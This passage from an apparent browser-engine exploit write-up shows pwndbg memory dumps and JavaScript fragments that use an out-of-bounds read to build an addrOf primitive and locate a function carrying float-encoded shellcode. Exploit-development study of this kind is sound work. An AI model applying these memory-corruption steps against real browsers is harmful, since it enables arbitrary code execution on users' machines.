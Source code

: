 Now we search for `oobDblAddr2's` element object member's address. Same as before, on first try we match the pattern but it is not in `obDblAddr2`, so we try again and get the correct address.

```bash
pwndbg> x/50wx 0x058f000421d1-1
0x58f000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
0x58f000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
0x58f000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
0x58f00042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x58f00042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0x58f00042220:	0x00000000	(0x40504000)-> 1	0x00000000	0x40508000
0x58f00042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0x58f00042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
...
```

We find a pattern that is not inside `OobDblArr2`. We search again this time starting from `dblIndex + 0x10` which translates to 0x58f00042259. 

```js
  let objIndex = searchObjArrIndex(dblAddr, corruptedArr, dblAddr + 0x100);
  console.log(objIndex.toString(16));
  console.log("oobObjAddr: " + indexToAddr(objIndex).toString(16));
```

Next we find the address of `oobObjAddr`'s element address. We will place any object in this array and read it's address through OOB read in `oobDblAddr`.

```bash
pwndbg> x/50wx 0x2f5500042281-1
0x2f5500042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
0x2f5500042290:	0x0000117d	0x00207cd9	0x00000089	0x00000004
0x2f55000422a0:	(0x00828282	0x00848484)	0x00000591	0x00000003
0x2f55000422b0:	0x00000005	0x65313234	0x00000039	0x000005e1
0x2f55000422c0:	0x00000003	0x00000011	0x000422d1	0x00000e01
...
```

We can see in the marked memory that 0x414141 and 0x424242 are present (doubled, ofcourse).

```js
  var funcAddr = addrOf(func, (objIndex - oobDblIndex) >> 1); 
  console.log("func Addr: " + funcAddr.toString(16));
```

Now, we find the address of `func` function that has our floating point encoded shellcode. We use `(objIndex - oobDblIndex) >> 1`. As we have OOB read in `oobDblArr` of size 256, we calculate distance between `oobDblArr`and `oobObjArr`, place address of `func` in `oobObjArr[0]` and use OOB in `oobDblArr` to read address of `func` which is: `oobObjArr[0]`.

```bash
pwndbg> x/80wx 0x3e8000042281-1
0x3e8000042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
0x3e8000042290:	0x0000117d	0x00207d05	0x00000089	0x00000004
0x3e80000422a0:	(0x0019bfd5)	0x00848484	0x00000591	0x00000003
0x3e80000422b0:	0x00000005	0x65313234	0x00000039	0x000005e1
0x3e80000422c0:	0x00000003	0x00000011	0x000422d1	0x00000e01
...
```
